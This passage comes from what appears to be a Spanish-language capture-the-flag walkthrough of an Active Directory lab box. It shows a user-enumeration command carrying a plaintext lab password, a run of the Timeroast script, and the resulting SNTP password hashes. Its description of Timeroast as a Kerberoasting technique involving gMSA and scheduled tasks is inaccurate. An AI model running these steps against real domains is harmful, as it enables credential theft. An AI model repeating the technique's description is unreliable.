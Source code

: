 ```bash
LDAP        10.10.11.75     389    DC               ee.reed                       2025-07-06 05:31:39 0                                                                    
LDAP        10.10.11.75     389    DC               nn.marcos                     2024-12-27 08:34:50 0                                                                    
LDAP        10.10.11.75     389    DC               backupadmin                   2024-12-29 21:30:18 0           
```

obtenemos usuarios y los guardamos en un archivo

```bash
nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --users |grep -vE '[*]|[+]|-Username-' |awk '{print $5}' > users.txt
```
```bash
cat users.txt
```
```bash
Administrator
Guest
krbtgt
rr.parker
mm.turner
bb.morgan
gg.anderson
dd.ali
ee.reed
nn.marcos
backupadmin
```

en este punto despues de intentar varios vectores no obtengo resultaods hasta intentar con `Timeroast` 

```bash
Timeroast es un método de Kerberoasting que permite a un atacante extraer
hashes de contraseñas de cuentas de servicio en Active Directory,
aprovechando tareas programadas (scheduled tasks) registradas en Service
Principal Names (SPNs) vinculadas a objetos tipo msDS-ManagedServiceAccount
o Group Managed Service Accounts (gMSA)
```

para esto usaremos el script a continuacion:

https://github.com/SecuraBV/Timeroast

lo descargamos y lo ejecutamos

```python
python3 timeroast.py 10.10.11.75
```
```python
1000:$sntp-ms$886eaa18fc3352176cf361c793e83a11$1c0111e900000000000a0a424c4f434cec14adcf562e9a47e1b8428bffbfcd0aec14bb555a05956bec14bb555a05ace8
1103:$sntp-ms$310776f77586cde617fe21972c4b2d1b$1c0111e900000000000a0a434c4f434cec14adcf57c64345e1b8428bffbfcd0aec14bb56cbbe04b2ec14bb56cbbe18d4
1104:$sntp-ms$323d201cb43cca8a7cdf7da0b6996e56$1c0111e900000000000a0a434c4f434cec14adcf57f559b3e1b8428bffbfcd0aec14bb56cbed12bdec14bb56cbed344b
1105:$sntp-ms$a9e6227bfa19e5a36305ae3b365d4533$1c0111e900000000000a0a434c4f434cec14adcf5818fed4e1b8428bffbfcd0aec14bb56cc10b7deec14bb56cc10dcc7
1106:$sntp-ms$3af01242bdbd6e786448cd8b00d95b9f$1c0111e900000000000a0a434c4f434cec14adcf58369ac6e1b8428bffbfcd0aec14bb56cc2e4811ec14bb56cc2e7c14
1107:$sntp-ms$d46640859c49d6382f708de8c19f359f$1c0111e900000000000a0a434c4f434cec14adcf56d05d7be1b8428bffbfcd0aec14bb56ce9f16b1ec14bb56ce9f4ab3
1118:$sntp-ms$9a1733265fecb3cb32c05f0b166f9685$1c0111e900000000000a0a434c4f434cec14adcf5813ea98e1b8428bffbfcd0aec14bb56cfe2b643ec14bb56cfe2ca65
1119:$sntp-ms$ef1e1f7c1f2d43b118ef2da92d4a2e1b$1c0111e900000000000a0a434c4f434cec14adcf54cf398ee1b8428bffbfcd0aec14bb56d0b68cefec14bb56d0b6b533
```